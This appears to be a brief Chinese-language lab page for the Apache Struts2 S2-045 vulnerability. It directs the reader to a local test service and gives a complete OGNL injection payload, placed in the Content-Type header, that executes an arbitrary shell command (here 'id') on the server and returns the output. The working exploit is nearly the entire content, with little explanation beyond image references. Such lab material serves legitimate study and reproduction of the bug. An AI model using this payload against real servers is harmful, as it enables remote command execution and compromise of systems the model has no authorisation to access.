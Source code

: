 访问 `http://your-ip:8080` ，查看如下页面

![s2-045-1](images/s2-045-1.png)

任意命令执行 PoC，执行 `id` 命令

```
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}.multipart/form-data;
```

![s2-045-2](images/s2-045-2.png)
